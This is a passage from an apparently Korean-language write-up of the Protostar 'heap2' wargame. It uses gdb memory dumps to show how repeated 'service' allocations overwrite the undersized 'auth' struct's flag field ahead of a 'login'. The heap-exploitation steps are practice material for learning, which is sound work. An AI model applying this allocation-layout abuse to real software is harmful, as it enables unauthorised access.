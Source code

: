 ```
pwndbg> r
Starting program: /wargame/protostar/heap/heap2/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c818, service = (nil) ]
serviceBBBB
[ auth = 0x804c818, service = 0x804c828 ]

pwndbg> x/50x 0x804c800
0x804c800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c810:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c820:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c830:      0x00000000      0x000007d1      0x00000000      0x00000000
0x804c840:      0x00000000      0x00000000      0x00000000      0x00000000
```

liveoverflow 동영상에서도 여러 변수들이 `auth` 동일 이름을 사용하고 있어서 좀 문제가 있다고 설명하고 있네요...

#### How to exploit

실제 사이즈보다 alloced 된 영역은 작지만 `auth->auth` 해석 시에는 structure 의 크기에 맞추어서 해석이 되어 `auth->auth` 값 (`0x804c818` + `32` = `0x804c838`)은 `0` 이다.

```
gef)  x/50x 0x804c800
0x804c800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c810:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c820:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c830:      0x00000000      0x000007d1      0x00000000      0x00000000
0x804c840:      0x00000000      0x00000000      0x00000000      0x00000000

gef)  print auth
$1 = (struct auth *) 0x804c818
gef)  print *auth
$2 = {
  name = 0x804c818,
  auth = 0x0
}
```

## Exploit

#### Exploit1 : `service` 를 통해서 여러번 alloc

`auth` 입력 이후에 `service` 를 여러번 수행해서 `0x804c838` 에 값을 쓴다음에 `login` 수행.

```
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c818, service = (nil) ]
serviceBBBB
[ auth = 0x804c818, service = 0x804c828 ]
serviceCCCC
[ auth = 0x804c818, service = 0x804c838 ]

gef)  x/50 0x804c800
0x804c800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c810:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804c820:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c830:      0x00000000      0x00000011      0x43434343      0x0000000a
0x804c840:      0x00000000      0x000007c1      0x00000000      0x00000000
0x804c850:      0x00000000      0x00000000      0x00000000      0x00000000

gef)  print auth
$5 = (struct auth *) 0x804c818
```